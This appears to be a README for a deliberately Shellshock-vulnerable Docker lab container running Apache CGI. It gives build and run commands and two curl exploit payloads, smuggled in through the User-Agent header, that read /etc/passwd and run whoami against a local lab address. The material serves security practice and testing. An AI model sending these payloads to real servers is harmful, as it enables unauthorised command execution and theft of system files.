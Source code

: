 docker-shellshockable
=====================

Docker container with Apache 2 / CGI shellshock vulnerable.
```
docker build -t shellshock docker-shellshockable
docker run -d --name shellshock 6c514587a5ff
export WEBSRV=`docker inspect --format "{{.NetworkSettings.IPAddress}}" shellshock`
curl -A "() { foo;};echo;/bin/cat /etc/passwd" "http://172.17.0.2/cgi-bin/shockme.cgi"
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'whoami'" "http://172.17.0.2/cgi-bin/shockme.cgi"
```
